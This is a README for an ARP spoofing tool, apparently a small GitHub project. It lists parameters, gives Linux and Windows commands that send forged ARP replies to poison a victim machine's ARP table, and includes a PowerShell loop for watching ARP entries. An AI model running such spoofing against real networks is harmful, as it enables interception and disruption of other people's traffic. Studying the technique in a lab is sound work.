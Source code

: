 # ARP Spoofing (but not like the others)

## Usage

| Parameter      | Description                                       |
|----------------|---------------------------------------------------|
| spoofedMAC     | New MAC address to be set                         |
| spoofedIP      | Ip entry in the ARP table of victim to be altered |
| targetMAC      | MAC address of the victim to send the attack to   |
| interface      | Interface to use to send attack from              |
| listInterfaces | Will list interfaces of the machine               |
| help           | Displays help on how to use this                  |

### Example

In the commands below, our machine will send packets using interface `eth1` on Linux,
`\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}` on Windows to the machine with MAC address `00:15:5D:09:B8:34`,
that will receive packets telling it machine with IP `200.201.202.144` has MAC address `DE:AD:BE:EF:11:12`.

#### Linux

```bash
sudo ./custom -interface=eth1 -spoofedMAC=DE:AD:BE:EF:11:12 -spoofedIP=200.201.202.144 -targetMAC=00:15:5D:09:B8:34
```

#### Windows

Must be run as administrator

```powershell
.\custom.exe -interface "\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}" -spoofedMAC DE:AD:BE:EF:11:12 -spoofedIP 200.201.202.144
```

## Display arp table for given IP root using powershell

```powershell
$IP_ROOT="200.201.202."

while ($True)
{
    $filter = (arp -a | Select-String -Pattern "^ *$IP_ROOT*" -AllMatches) -join "`n"

    Clear-Host
    Write-Host $filter

    Start-Sleep -Seconds 1
}
```

## Author

SOARES Lucas
